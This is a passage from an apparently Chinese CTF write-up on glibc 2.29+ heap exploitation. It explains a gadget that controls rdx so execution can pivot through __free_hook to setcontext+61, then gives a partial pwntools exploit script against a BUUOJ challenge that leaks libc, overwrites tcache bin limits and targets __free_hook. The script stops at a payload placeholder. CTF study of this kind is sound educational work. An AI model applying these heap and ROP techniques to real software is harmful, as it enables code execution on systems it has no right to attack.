 之前对2.29以上版本的setcontext不熟悉,发现需要控制rdx. 这里要用到一个魔法gadget.

```
   0x154b20:	mov    rdx,QWORD PTR [rdi+0x8]
   0x154b24:	mov    QWORD PTR [rsp],rax
   0x154b28:	call   QWORD PTR [rdx+0x20]
```
我们可以通过rdi (此时即__free_hook的地址)控制rdx. 根据gadget,将参数(指向伪栈帧的指针)放在`rdi+8`的位置, 再把`setcontext + 61` 放在`伪栈帧+0x20`的位置.这个布置参考了大佬的文章,利用伪栈帧前面的垃圾空间来为gadget布局,非常巧妙
[https://www.anquanke.com/post/id/235821#h3-6](https://www.anquanke.com/post/id/235821#h3-6) 

之后就是布置伪栈帧与ROP链.

### 完整exp
```
from pwn import *
import sys


if len(sys.argv) >1 and sys.argv[1] == 'r':
    target = remote("node3.buuoj.cn",26222)
else:
   # target = process("")
    target=process(["./ld-2.30.so","./pwn"],env={"LD_PRELOAD":"./libc.so.6"})
    if(len(sys.argv)>1) and sys.argv[1]=='g':
        gdb.attach(target)

context.log_level='debug'
context.arch='amd64'
#context.update(arch='')
#gdb.attach(target)

def writeWhatWhere(where,what):
    target.recvuntil("anywhere\n")
    target.send(p64(where))
    target.recvuntil("what?\n")
    target.send(what)

def pwn():
    libc = ELF("./libc.so.6")
    target.recvuntil("GIFT: ") 
    leak = int(target.recvline(),16)
    success("leak stdout: " + hex(leak))
    tcache_max_bin = leak - 0x13d0
    libc_base = leak-0x1eb6a0
    free_hook = libc_base + 0x1edb20

    success("TCACHE_MAX_BINS: "+hex(tcache_max_bin))

    offset = 0x968
    size = 0x1700 #0x1710
    
    writeWhatWhere(tcache_max_bin+1,"\xff")
    target.recvuntil("Offset:\n")
    target.sendline(str(offset))

    target.recvuntil("Content:\n")
    target.send(p64(free_hook))
    
    target.recvuntil("ize:\n")
    target.sendline(str(size))
    
    # payload constructed here
    
    ret = libc_base + 0x256b9
```